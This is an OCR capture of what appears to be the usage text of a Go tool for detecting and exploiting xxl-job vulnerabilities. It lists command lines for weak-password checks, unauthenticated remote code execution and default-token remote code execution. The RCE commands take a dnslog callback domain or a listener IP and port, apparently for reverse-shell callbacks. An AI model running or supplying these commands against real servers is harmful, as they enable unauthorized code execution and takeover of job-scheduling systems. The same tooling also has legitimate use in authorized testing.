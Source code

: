  xxl-job related vulnerability detection and exploitation tools 
                                                                                      
        week password:                                                                 
                    go run xxl-job.go week -u http://127.0.0.1                         
                                                                                       
        unauthoriztion rce:                                                            
                    go run xxl-job.go unauth -u http://127.0.0.1 -d dnslog.com         
                    go run xxl-job.go unauth -u http://127.0.0.1 -lh ip -lp port       
                                                                                      
        defult token rce:                                                              
                    go run xxl-job.go token -u http://127.0.0.1 -d dnslog.com          
                    go run xxl-job.go token -u http://127.0.0.1 -lh ip -lp port        
                                                                                       
        -p proxy Optional parameters, choose whether to add according to the actual situation 
